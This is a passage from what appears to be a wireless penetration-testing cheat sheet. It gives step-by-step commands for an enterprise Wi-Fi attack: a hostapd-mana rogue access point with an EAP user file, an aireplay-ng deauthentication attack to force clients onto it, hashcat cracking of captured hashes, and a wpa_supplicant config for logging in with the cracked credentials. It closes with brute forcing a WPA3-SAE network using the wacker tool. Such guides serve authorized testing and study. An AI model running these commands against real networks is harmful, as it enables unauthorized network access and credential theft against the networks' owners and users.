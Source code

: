 We'll now need to create the EAP user file referenced in the configuration file, **mana.eap_user**. The file should contain the following.

```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

To launch Rough AP

```bash
hostapd-mana mana.conf
```

To kick client to connect to hosted Rough AP, we have to perform deauth attack

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a <$AP_BSSID> -c <$Client_BSSID>
```

Once captured the handshake, we have crack the password

```bash
hashcat -a 0 -m 5500 hashfile ~/rockyou-top100000.txt  --force
```

Follow the below to connect the wifi using wpa_supplicant

```
# Save the below params in wpa-epa.conf
network={
 ssid="<$SSID>"
 scan_ssid=1
 key_mgmt=WPA-EAP
 eap=PEAP
 identity="<$identity\user>"
 password="<$password>"
 phase1="peaplabel=0"
 phase2="auth=MSCHAPV2"
}
```
```bash
sudo wpa_supplicant -i wlan1 -c wpa-epa.conf
sudo dhclient wlan1 -v
```

## **Attacking WPA3-SAE**

### **Brute Force**

WPA3-SAE is also vulnerable to brute force attack util found the valid password. we can use the wacker tool to brute force the password.

[**https://github.com/blunderbuss-wctf/wacker**](https://github.com/blunderbuss-wctf/wacker)  

```bash
python3 wacker.py --wordlist <$Password_file> --interface wlan2 --bssid <$AP_BSSID> --ssid <$AP_ESSID> --freq 2462
```
